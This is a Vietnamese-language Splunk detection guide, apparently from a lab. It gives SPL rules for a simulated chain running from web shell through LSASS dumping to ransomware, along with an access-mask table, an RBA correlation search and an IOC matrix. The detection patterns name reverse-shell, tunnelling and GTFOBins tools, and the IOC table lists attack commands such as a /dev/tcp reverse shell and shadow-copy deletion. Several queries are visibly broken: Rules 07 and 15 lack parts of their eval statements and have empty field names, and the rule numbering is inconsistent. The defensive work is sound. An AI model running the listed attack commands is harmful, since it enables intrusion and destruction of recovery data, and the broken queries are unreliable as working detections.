
*Hình 5.3: Kết quả Splunk SPL phát hiện Reverse Shell từ tiến trình máy chủ web bằng auditd.*

> **Key insight:** `key=net_connect` giảm noise từ 138 → 53 events (62% reduction)

```spl
index=linux_security sourcetype=auditd type=SYSCALL
  comm IN ("bash","sh","dash")
  key=net_connect
| eval non_interactive=if(auid=4294967295 OR tty="(none)", 1, 0)
| where non_interactive=1
| bin _time span=5m
| stats count as connections, dc(pid) as unique_pids,
        values(exe) as shells, values(auid) as uids, values(pid) as pids, values(ppid) as ppids,
        earliest(_time) as first_seen, latest(_time) as last_seen
  by host, comm, _time
| where connections >= 1
| convert ctime(first_seen) ctime(last_seen)
| table _time host uids comm shells connections unique_pids pids ppids first_seen last_seen
| sort -connections
```

**ES Throttle:** `window=1800s group=host` (cron reverse shell lặp mỗi 5 phút)

---

---

### Rule 04: Linux Cron Job Persistence (T1053.003)


*Hình 5.4: Kết quả Splunk SPL phát hiện tạo Cron Job định kỳ duy trì quyền truy cập ngầm.*

```spl
index=linux_security sourcetype=auditd
  (comm=crontab OR exe="/usr/bin/crontab")
  success=yes key=cron_persistence
| where uid=33 OR auid=33
| stats count as cron_events, values(key) as audit_keys,
        dc(pid) as invocation_count, values(uid) as uids, values(pid) as pids, values(ppid) as ppids,
        earliest(_time) as first_seen, latest(_time) as last_seen
  by host, comm
| convert ctime(first_seen) ctime(last_seen)
| table host uids comm pids ppids cron_events invocation_count first_seen last_seen
```

**ES Throttle:** `window=3600s group=host`

---

---

### Rule 05: Sudo GTFOBins Privilege Escalation (T1548.003)


*Hình 5.5: Kết quả Splunk SPL phát hiện leo thang đặc quyền Root qua Sudo GTFOBins.*

> **REX justified:** `linux_secure` là text log, `COMMAND` field không được extract sẵn.

```spl
index=linux_security sourcetype=linux_secure "sudo:" 
| rex field=_raw "sudo:\s+(?<sudo_user>\S+).*COMMAND=(?<sudo_cmd>.*)$"
| eval is_gtfobin=if(match(sudo_cmd,"(?i)/(find|vim|awk|less|nmap|python[23]?|perl|ruby|php|tar|gdb|strace|nano|vi|more|git|zip|unzip|curl|wget|bash|sh)\b"),1,0)
| eval spawns_shell=if(match(sudo_cmd,"(?i)(-exec\s+/bin/(sh|bash)|/bin/(sh|bash)\s*$|\s+(sh|bash)\s+-[ic])"),1,0)
| where (is_gtfobin=1 OR spawns_shell=1) AND sudo_user!="root"
| stats count as events, values(sudo_cmd) as cmds, values(pid) as pids, values(ppid) as ppids,
        earliest(_time) as first_seen, latest(_time) as last_seen
  by host, sudo_user
| convert ctime(first_seen) ctime(last_seen)
| table host sudo_user events cmds pids ppids first_seen last_seen
| sort -_time
```

**ES Throttle:** `window=3600s group=host`

---

---

### Rule 06: Credential Access via Configuration File (T1552.001)


*Hình 5.6: Kết quả Splunk SPL phát hiện đọc trích xuất tài khoản đăng nhập từ file cấu hình.*

```spl
index=linux_security sourcetype=auditd key=sensitive_config_read success=yes type=SYSCALL
| where NOT match(exe,"(?i)(apache2|php-fpm|httpd|nginx)")
| where NOT (syscall=89 OR syscall=2)
| eval non_interactive=if(auid=4294967295 OR tty="(none)", 1, 0)
| where non_interactive=1
| bin _time span=15m
| stats count as read_events, values(comm) as tools, values(exe) as exes, values(uid) as uids, values(pid) as pids, values(ppid) as ppids,
        earliest(_time) as first_seen, latest(_time) as last_seen
  by host, _time
| eval is_root=if(mvfind(uids,"0")>=0, 1, 0)
| convert ctime(first_seen) ctime(last_seen)
| table _time host uids tools exes pids ppids read_events first_seen last_seen
| sort -_time
```

**ES Throttle:** `window=3600s group=host`

---

---

### Rule 07: C2 Reverse Tunnel & Ingress Tool Transfer (T1090.001 + T1105)


*Hình 5.7: Kết quả Splunk SPL phát hiện mở đường hầm C2 Chisel và chuyển công cụ tấn công.*

```spl
index=linux_security sourcetype=auditd
  ((comm IN ("wget","curl") key="exec_cmds")
   OR (comm IN ("chisel","socat"))
   OR exe="/tmp/chisel")
| eval is_tunnel=if(match(exe,"(?i)(chisel|socat)") OR comm IN ("chisel","socat"), 1, 0)
| eval is_download=if(comm IN ("wget","curl") AND key="exec_cmds", 1, 0)
| eval is_susp_path=if(match(exe,"(?i)/tmp/|/dev/shm/|/var/tmp/"), 1, 0)
| bin _time span=10m
| stats count as events, values(comm) as tools_used, values(exe) as binaries, values(auid) as uids, values(pid) as pids, values(ppid) as ppids,
        max(is_tunnel) as has_tunnel, max(is_download) as has_dl, max(is_susp_path) as has_susp,
        earliest(_time) as first_seen, latest(_time) as last_seen
  by host, _time
    has_tunnel=1 AND has_dl=1, 82,
    has_tunnel=1, 68,
    has_dl=1 AND has_susp=1, 55,
    has_dl=1, 38,
    1=1, 20)
| where >= 38
| convert ctime(first_seen) ctime(last_seen)
| table _time host uids tools_used binaries pids ppids events first_seen last_seen
| sort -_time
```

**ES Throttle:** `window=3600s group=host`

---

---

### Rule 08: Network Discovery from Non-Interactive Context (T1046)


*Hình 5.8: Kết quả Splunk SPL phát hiện dò quét mạng nội bộ từ ngữ cảnh phi tương tác.*

```spl
index=linux_security sourcetype=auditd type=SYSCALL
  comm IN ("ip","ifconfig","arp","ss","netstat","route","hostname","nmap","traceroute","ping","arp-scan")
| eval non_interactive=if(auid=4294967295 OR tty="(none)", 1, 0)
| where non_interactive=1
| bin _time span=5m
| stats values(comm) as tools_used, dc(comm) as tool_types, values(auid) as uids, values(pid) as pids, values(ppid) as ppids,
        count as tool_calls, earliest(_time) as first_seen, latest(_time) as last_seen
  by host, _time
| where tool_calls >= 5 AND tool_types >= 2
| convert ctime(first_seen) ctime(last_seen)
| table _time host uids tools_used tool_types tool_calls pids ppids first_seen last_seen
| sort -tool_calls
```

**ES Throttle:** `window=3600s group=host`

---

---

### Rule 09: WinRM Lateral Movement from Pivot Host (T1021.006)


*Hình 5.9: Kết quả Splunk SPL phát hiện di chuyển ngang WinRM qua máy trung gian Pivot Host.*

> **Lab finding:** `Source_Network_Address="-"` do socat tunnel ẩn IP. Filter theo NtLmSsp pattern.

```spl
index=windows_security EventCode=4624 Logon_Type=3 Logon_Process IN ("NtLmSsp", "Kerberos")
| eval acct=if(mvcount(Account_Name)>1, mvindex(Account_Name, -1), Account_Name)
| where NOT match(acct,"(?i)(anonymous|^-$|\$$)")
| bin _time span=15m
| stats count as logon_count, values(Source_Network_Address) as src_ips,
        earliest(_time) as first_seen, latest(_time) as last_seen
  by host, acct, _time
| convert ctime(first_seen) ctime(last_seen)
| table _time host acct src_ips logon_count first_seen last_seen
| sort -logon_count
```

**Confirm WinRM via Sysmon:**
```spl
index=windows_sysmon EventCode=1 ParentImage="*wsmprovhost.exe" host=$host$
| table _time Image CommandLine User ParentImage
| sort -_time
```

**ES Throttle:** `window=1800s group=host`

---

---

### Rule 10: New Local Administrator Account Creation (T1136.001)


*Hình 5.10: Kết quả Splunk SPL phát hiện tạo tài khoản ngầm và gán quyền Administrators.*

> **Note:** TargetUserName/Group_Name field unreliable → dùng rex từ _raw hoặc Sysmon approach.

```spl
index=windows_security (EventCode=4720 OR EventCode=4732)
| rex field=_raw "Account Name:\s+(?<creator_user>\S+)\s+Account Domain:\s+(?<subj_domain>\S+)"
| rex field=_raw "Group Name:\s+(?<group_name>[^\r\n]+)"
| eval event_type=case(EventCode=4720,"UserCreated",EventCode=4732,"AddedToGroup",1=1,"Other")
| bin _time span=30m
| stats values(event_type) as types, dc(EventCode) as evt_count,
        values(group_name) as groups, values(creator_user) as creators,
        earliest(_time) as first_seen, latest(_time) as last_seen
  by host, _time
| where evt_count >= 2
| eval admin_add=if(mvfind(groups,"Administrators")>=0, 1, 0)
| convert ctime(first_seen) ctime(last_seen)
| table _time host creators types groups first_seen last_seen
| sort -_time
```

**ES Throttle:** `window=3600s group=host`

**Alternative (Sysmon, không cần rex):**
```spl
index=windows_sysmon EventCode=1 Image="*net.exe"
| where match(CommandLine,"(?i)user\s+\w+\s+.+/add") OR match(CommandLine,"(?i)localgroup\s+administrators")
| bin _time span=5m
| stats values(CommandLine) as cmds, count as events, values(User) as users by host, _time
| table _time host cmds users events
```

---

---

### Rule 11: Windows Defender Real-time Protection Disabled (T1562.001)


*Hình 5.11: Kết quả Splunk SPL phát hiện vô hiệu hóa cơ chế phòng thủ Windows Defender.*

> **Tại sao không có Sysmon EID=1:** Set-MpPreference chạy in-process, không spawn child process.  
> **Prerequisite:** Forward `Microsoft-Windows-Windows Defender/Operational` channel.

```spl
(index=windows_logs EventCode=5001 source="WinEventLog:Microsoft-Windows-Windows Defender/Operational")
OR (index=windows_logs source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104
    (Message="*DisableRealtimeMonitoring*" OR Message="*Set-MpPreference*Disable*" OR Message="*Disable*Defender*"))
OR (index=windows_sysmon EventCode=1 (Image="*powershell.exe" OR Image="*cmd.exe") (CommandLine="*Set-MpPreference*" OR CommandLine="*DisableRealtimeMonitoring*"))
| eval alert_source=case(EventCode=5001,"Defender_Operational_5001",EventCode=4104,"PowerShell_ScriptBlock_4104",EventCode=1,"Sysmon_ProcessCreate_1",1=1,"Other")
| bin _time span=15m
| stats count as events, values(EventCode) as event_codes, values(ParentImage) as parent_images, values(ProcessId) as pids, values(User) as users by host, ComputerName, alert_source, _time
| convert ctime(_time)
| table _time host ComputerName alert_source users event_codes events parent_images pids
| sort -_time
```

**ES Throttle:** `window=3600s group=host`

---

---

### Rule 12: LSASS Process Memory Dump (T1003.001)


*Hình 5.12: Kết quả Splunk SPL phát hiện trích xuất bộ nhớ tiến trình LSASS qua Sysmon Event 10.*

> **0x1010 mask thường bị miss** — Mimikatz variant. Đã thêm vào coverage.

```spl
index=windows_sysmon EventCode=10 TargetImage="*lsass.exe"
| eval ga=lower(GrantedAccess)
| where ga IN ("0x1010","0x1410","0x1438","0x143a","0x1fffff","0x1f0fff","0x1f1fff")
| eval whitelisted=if(match(lower(SourceImage),"(?i)(msmpe|windowssecurityhealthservice|sense\.exe|antimalware)"),1,0)
| where whitelisted=0
| eval is_procdump=if(match(CallTrace,"(?i)(dbgcore|dbghelp)\.dll"),1,0)
| eval is_susp_path=if(match(lower(SourceImage),"(?i)\\\\(temp|appdata|users\\\\public|programdata|downloads)\\\\"),1,0)
| stats count as access_count, values(GrantedAccess) as ga_masks,
        max(is_procdump) as procdump_detected,
        max(is_susp_path) as susp_path
  by host, SourceImage, SourceUser
| table host SourceImage SourceUser access_count ga_masks procdump_detected susp_path
| sort -_time
```

**ES Throttle:** `window=3600s group=host`

---

---

### Rule 13: Volume Shadow Copy Deletion (T1490)


*Hình 5.13: Kết quả Splunk SPL phát hiện xóa Volume Shadow Copies ngăn chặn khôi phục.*

```spl
index=windows_sysmon EventCode=1 Image="*vssadmin.exe"
| where match(CommandLine,"(?i)(vssadmin.*delete.*shadows|wmic.*shadowcopy.*delete|wbadmin.*delete|bcdedit.*(recoveryenabled.*no|bootstatuspolicy.*ignoreallfailures))")
| eval parent=mvindex(split(ParentImage,"\\"),-1)
| eval via_winrm=if(match(lower(parent),"wsmprovhost"),1,0)
| stats count as events, values(CommandLine) as cmd,
        max(via_winrm) as winrm_confirmed,
        values(parent) as parents, earliest(_time) as first_seen, latest(_time) as last_seen
  by host, User
| convert ctime(first_seen) ctime(last_seen)
| table host User cmd parents winrm_confirmed events first_seen last_seen
| sort -_time
```

**ES Throttle:** `window=3600s group=host`

---

---

### Rule 14: Mass File Encryption / Ransomware Activity (T1486)


*Hình 5.14: Kết quả Splunk SPL phát hiện hoạt động mã hóa tống tiền hàng loạt file .locked.*

```spl
index=windows_sysmon EventCode=11
| where like(TargetFilename,"%.locked") OR like(TargetFilename,"%.encrypted") OR like(TargetFilename,"%.crypt")
| bin _time span=2m
| stats dc(TargetFilename) as files_encrypted, count as total_events,
        values(TargetFilename) as samples
  by host, Image, _time
| where files_encrypted > 5
| eval via_winrm=if(match(lower(Image),"wsmprovhost"),1,0)
| convert ctime(_time)
| table _time host Image files_encrypted total_events via_winrm
| sort -_time
```

**ES Throttle:** `window=3600s group=host`

---

---

### Rule 15: Multi-Stage Attack Chain Correlation & RBA


*Hình 5.15: Kết quả Splunk SPL tương quan chuỗi tấn công đa tầng và tính điểm rủi ro RBA.*

> ⚠️ **Performance note:** Rule nặng — chỉ chạy trong ES với Risk Framework.  
> Trong Splunk core: giới hạn `earliest=-4h`.

```spl
| union
    [search index=web_logs method=POST status=200 uri_path=*upload* NOT uri_path=*login*
     | stats count by host | eval stage="R01-WebUpload" | eval risk=25 | eval entity=host]
    [search index=web_logs method=GET status=200 file=*.php cmd=*
     | eval entity=clientip | stats count by entity | eval stage="R02-WebShell" | eval risk=55]
    [search index=linux_security sourcetype=auditd comm IN ("bash","sh","dash") key=net_connect (auid=4294967295 OR tty="(none)")
     | stats count by host | eval stage="R03-RevShell" | eval risk=75 | eval entity=host]
    [search index=linux_security sourcetype=auditd comm=crontab success=yes key=cron_persistence (uid=33 OR auid=33)
     | stats count by host | eval stage="R04-CronPersist" | eval risk=55 | eval entity=host]
    [search index=linux_security sourcetype=linux_secure "sudo:" "www-data"
     | stats count by host | eval stage="R05-SudoEsc" | eval risk=75 | eval entity=host]
    [search index=linux_security sourcetype=auditd key=sensitive_config_read success=yes (auid=4294967295 OR tty="(none)")
     | stats count by host | eval stage="R06-CredRead" | eval risk=70 | eval entity=host]
    [search index=linux_security sourcetype=auditd (comm="chisel" OR exe="/tmp/chisel" OR (comm="socat" AND key="net_connect"))
     | stats count by host | eval stage="R07-C2Tunnel" | eval risk=75 | eval entity=host]
    [search index=windows_security EventCode=4624 Logon_Type=3 Logon_Process IN ("NtLmSsp", "Kerberos")
     | stats count by host | eval stage="R09-WinRM" | eval risk=72 | eval entity=host]
    [search index=windows_security (EventCode=4720 OR EventCode=4732)
     | stats count by host | eval stage="R10-AdminAcct" | eval risk=80 | eval entity=host]
    [search index=windows_logs EventCode=5001 source="WinEventLog:Microsoft-Windows-Windows Defender/Operational"
     | stats count by host | eval stage="R11-DefenderOff" | eval risk=90 | eval entity=host]
    [search index=windows_sysmon EventCode=10 TargetImage="*lsass.exe" GrantedAccess="0x1FFFFF"
     | stats count by host | eval stage="R12-LSASSDump" | eval risk=95 | eval entity=host]
    [search index=windows_sysmon EventCode=1 Image="*vssadmin.exe" CommandLine="*delete*shadows*"
     | stats count by host | eval stage="R13-VSSDelete" | eval risk=95 | eval entity=host]
    [search index=windows_sysmon EventCode=11 (TargetFilename="*.locked" OR TargetFilename="*.encrypted")
     | bin _time span=2m | stats dc(TargetFilename) as f by host | where f>5
     | eval stage="R14-Ransomware" | eval risk=100 | eval entity=host]
| dedup entity, stage
| stats sum(risk) as , dc(stage) as stage_count, max(risk) as max_risk,
        values(stage) as stages_active, earliest(_time) as attack_start, latest(_time) as attack_end
  by entity
| eval duration_min=round((attack_end-attack_start)/60, 1)
    stage_count>=6 AND max_risk>=85, "CRITICAL - Full Kill-Chain Confirmed",
    stage_count>=4 AND max_risk>=70, "HIGH - Multi-Stage Attack",
    stage_count>=2, "MEDIUM - Correlated Indicators",
    1=1, "INFO")
| where stage_count >= 2
| eval suppress_key=entity + "|" + tostring(round(attack_start/3600)*3600)
| dedup suppress_key
| convert ctime(attack_start) ctime(attack_end)
| table entity  stage_count stages_active duration_min attack_start attack_end
| sort -
```

---

## 6. Chuyên Sâu Kỹ Thuật Bitmask Quyền Truy Cập LSASS (`GrantedAccess` Deep Dive)

!!! warning "Cơ chế hoạt động của `GrantedAccess` Mask"

    Khi một tiến trình gọi hàm Windows API `OpenProcess()` tới `lsass.exe`, trường `GrantedAccess` trong **Sysmon EventCode 10** lưu lại quyền hạn chính xác được cấp phát. Kẻ tấn công bắt buộc phải có các quyền đọc bộ nhớ ảo (`PROCESS_VM_READ`) để dump password hashes và Kerberos tickets.


### Bảng Ma Trận Chi Tiết Hex Masks và Chữ Ký Công Cụ

| Mã Hex Mask | Quyền chi tiết cấu thành (Win32 API Access Rights) | Công cụ / Hành vi thực tế | Đánh giá mức độ rủi ro |
| :---: | :--- | :--- | :---: |
| **`0x1000`** | `PROCESS_QUERY_LIMITED_INFORMATION` | Truy vấn trạng thái cơ bản của tiến trình | **Thấp** (Bình thường) |
| **`0x1010`** | `PROCESS_QUERY_LIMITED_INFORMATION` + `PROCESS_VM_READ` | Biến thể Mimikatz, MiniDumpWriteDump tối giản | **Cao** (Nguy hiểm) |
| **`0x1410`** | `PROCESS_QUERY_LIMITED_INFORMATION` + `PROCESS_VM_READ` + `PROCESS_QUERY_INFORMATION` | Công cụ Generic Memory Dumper | **Cao** (Mấu chốt Dump) |
| **`0x1438`** | `PROCESS_VM_READ` + `PROCESS_VM_WRITE` + `PROCESS_CREATE_THREAD` + `SYNCHRONIZE` | Dumpert, Custom In-memory Loaders | **Rất cao** (Khai thác) |
| **`0x143a`** | `PROCESS_VM_READ` + `PROCESS_VM_WRITE` + `PROCESS_CREATE_THREAD` + `PROCESS_DUP_HANDLE` | Mimikatz newer versions | **Rất cao** (Khai thác) |
| **`0x1f0fff`** | `PROCESS_ALL_ACCESS` ngoại trừ các quyền can thiệp thread | *Mimikatz lsadump* | **Khẩn cấp** (Critical) |
| **`0x1f1fff`** | `PROCESS_ALL_ACCESS` bao gồm thread operations | *Mimikatz sekurlsa* | **Khẩn cấp** (Critical) |
| **`0x1fffff`** | `PROCESS_ALL_ACCESS` (Toàn quyền trên tiến trình đích) | **`procdump.exe`**, LiveKD, WinDbg | **Khẩn cấp** (Critical) |

---

## 7. Ma Trận Tương Quan và Kim Tự Tháp Nỗi Đau (Pyramid of Pain)


### Bảng tổng hợp đối chiếu kỹ thuật và Bằng chứng thực tế trên Splunk

| Rule ID | Tên Luật Phát Hiện | MITRE Technique | Log Source | Tầng Pyramid | Risk Score | Số sự kiện ghi nhận trên Lab |
| :---: | :--- | :--- | :--- | :--- | :---: | :---: |
| **01** | Web Shell RCE Execution | `T1190`, `T1505.003` | `web_logs` | Host Artifacts | **20** | **52 events** |
| **02** | Cron Persistence | `T1053.003` | `linux_security` | TTPs / Behavior | **50** | **105 events** |
| **03** | Sudo GTFOBins Escalation | `T1548.003` | `linux_security` | TTPs / Behavior | **60** | **246 events** |
| **04** | Sensitive Config Read | `T1552.001` | `linux_security` | Host Artifacts | **35** | **24 events** |
| **05** | Ingress Tools và Tunneling | `T1105`, `T1090.001` | `linux_security` | Tools / TTPs | **55** | **652 events** |
| **06** | Internal Port Scanning | `T1046` | `windows_sysmon` | Network Artifacts | **20** | **2,805 connections** |
| **07** | Suspicious WinRM Access | `T1021.006` | `windows_security` | TTPs / Context | **75** | **2,808 events** |
| **08** | Rogue Admin Creation | `T1136.001`, `T1098`| `windows_security` | TTPs / Behavior | **80** | **18 events** |
| **09** | Defender Tampering | `T1562.001` | `windows_logs` | TTPs / Evasion | **85** | **65 events** |
| **10** | LSASS Memory Dumping | `T1003.001` | `windows_sysmon` | TTPs / LOLBins | **90** | **10 events** |
| **11** | VSS Deletion | `T1490` | `windows_sysmon` | TTPs / Critical | **95** | **8 events** |
| **12** | Mass File Encryption | `T1486` | `windows_sysmon` | TTPs / Impact | **100** | **180+ encrypted files** |

---

## 8. Cảnh Báo Dựa Trên Rủi Ro (Risk-Based Alerting - RBA)

!!! warning "Triết lý RBA trong Splunk Enterprise Security (ES 8)"

    Thay vì bắn alert đơn lẻ cho từng sự kiện khiến SOC quá tải (*Alert Fatigue*), cơ chế RBA gán **Risk Score** cho đối tượng rủi ro (*Risk Object*: host hoặc user). Một cảnh báo tổng hợp (*Notable Incident*) chỉ được tạo ra khi **tổng điểm rủi ro vượt ngưỡng (ngưỡng 100)** và xuất hiện chuỗi hành vi đa giai đoạn.


### Correlation Search Tổng Hợp Chuỗi Tấn Công (RBA Master Search)

```bash
| union
    [ search index=web_logs method IN ("GET","POST") file IN ("*.php","*.phtml","*.asp","*.aspx","*.jsp")
      | eval stage="1-InitialAccess_Webshell", risk_score=20, entity=coalesce(host, clientip)
      | fields _time entity stage risk_score ]
    [ search index=linux_security sourcetype=auditd (comm="crontab" OR key="cron_file_write")
      | eval stage="2-Persistence_Cron", risk_score=50, entity=host
      | fields _time entity stage risk_score ]
    [ search index=linux_security sourcetype=linux_secure "sudo:" "COMMAND="
      | eval stage="3-PrivEsc_Sudo", risk_score=60, entity=host
      | fields _time entity stage risk_score ]
    [ search index=linux_security sourcetype=auditd (key=sensitive_config_read OR comm IN ("chisel","socat"))
      | eval stage="4-Tunneling_Pivoting", risk_score=55, entity=host
      | fields _time entity stage risk_score ]
    [ search index=windows_security EventCode=4624 Logon_Type=3
      | rex field=_raw "Account Name:\s*(?<user>[^\r\n]+)"
      | eval stage="5-LateralMovement_WinRM", risk_score=75, entity=coalesce(host, ComputerName, user)
      | fields _time entity stage risk_score ]
    [ search index=windows_security (EventCode=4720 OR EventCode=4732)
      | eval stage="6-Persistence_WinAdmin", risk_score=80, entity=coalesce(host, ComputerName)
      | fields _time entity stage risk_score ]
    [ search index=windows_sysmon EventCode=10 TargetImage="*lsass.exe"
      | eval stage="7-CredentialDumping_LSASS", risk_score=90, entity=coalesce(host, Computer)
      | fields _time entity stage risk_score ]
    [ search index=windows_sysmon EventCode=1 (Image="*vssadmin.exe" OR Image="*bcdedit.exe")
      | eval stage="8-InhibitRecovery_VSS", risk_score=95, entity=coalesce(host, Computer)
      | fields _time entity stage risk_score ]
    [ search index=windows_sysmon EventCode=11 TargetFilename="*.locked"
      | bin _time span=1m
      | stats dc(TargetFilename) as files by host, _time
      | where files >= 3
      | eval stage="9-Impact_Ransomware", risk_score=100, entity=host
      | fields _time entity stage risk_score ]
| stats sum(risk_score) as total_risk,
        dc(stage) as stages_triggered,
        values(stage) as attack_stages,
        min(_time) as attack_start,
        max(_time) as attack_end
| where total_risk >= 100
| eval attack_duration_min = round((attack_end - attack_start)/60, 2)
| eval incident_severity = case(
    total_risk >= 250, "CRITICAL: Full Kill Chain Completed",
    total_risk >= 150, "HIGH: Multi-Stage Attack in Progress",
    total_risk >= 100, "MEDIUM: Suspicious Correlated Activity",
    1=1, "LOW"
  )
| convert ctime(attack_start) ctime(attack_end)
| table attack_start attack_end total_risk stages_triggered incident_severity attack_duration_min attack_stages
```

---

## 9. Các File Lookup Bổ Trợ (Lookup Tables Reference)

### 9.1 File `gtfobins_lookup.csv`
Đặt tại `/opt/splunk/etc/apps/search/lookups/gtfobins_lookup.csv`:

```csv
binary,is_gtfobin,risk_weight
find,true,high
vim,true,high
vi,true,high
nano,true,medium
less,true,medium
more,true,medium
awk,true,high
nmap,true,high
python,true,critical
perl,true,critical
ruby,true,critical
php,true,critical
tar,true,medium
zip,true,medium
cp,true,high
mv,true,high
env,true,high
socat,true,critical
bash,true,critical
sh,true,critical
```

### 9.2 File `admin_workstations_lookup.csv`
Đặt tại `/opt/splunk/etc/apps/search/lookups/admin_workstations_lookup.csv`:

```csv
ip,hostname,is_admin_ws,authorized_department
192.168.100.5,admin-sec-ws01,true,SOC_Team
192.168.100.6,admin-it-ws02,true,IT_Operations
192.168.100.7,jumphost-prod,true,DataCenter_Ops
```

---

## 10. Danh Mục Chỉ Số Tấn Công Tổng Hợp (Master IOC Matrix)

| Loại IOC | Giá trị định danh / Mẫu nhận diện | Vị trí phát hiện | Giai đoạn tấn công |
| :--- | :--- | :--- | :--- |
| **Network IP** | `192.168.50.100` (Attacker C2 / Staging) | Tường lửa biên / Web Access Log | Initial Access, Tunneling |
| **Network Port** | `4444` (Reverse Shell), `8080` (Chisel Server), `5555` (Socat Pivot) | Linux Auditd, Netstat | C2, Pivoting |
| **File Path** | `/var/www/html/dvwa/hackable/uploads/shell.php` | Web Server Document Root | Initial Access |
| **File Path** | `/tmp/chisel` | Web Server File System | Tool Transfer |
| **File Path** | `/etc/sudoers.d/lab-misconfig` | Linux Security Config | Privilege Escalation |
| **File Path** | `C:\Windows\Temp\procdump64.exe`, `C:\Windows\Temp\lsass.dmp` | Windows Server Temp | Credential Dumping |
| **Account** | `svc_backup` (Lộ lọt credential trong mã nguồn) | Web Config, Windows Security | Credential Access |
| **Account** | `backdoor` (Local Administrator mới tạo) | Windows SAM / Event 4720 | Persistence |
| **Process Lineage** | `apache2` $\rightarrow$ `sh` $\rightarrow$ `bash -i >& /dev/tcp/...` | Auditd Execve Events | Execution |
| **Process Service** | `sc.exe create DumpService binPath= "..."` | Windows System Service | Credential Access |
| **Command Line** | `vssadmin delete shadows /all /quiet` | Windows Sysmon Event 1 | Inhibit Recovery |
| **File Extension** | `*.locked`, `*.encrypted` (XOR Byte Header) | `C:\Users\Public\LabData\` | Ransomware Impact |

---

## 11. Khuyến Nghị Phòng Thủ và Khắc Phục (Mitigation và Hardening)


---

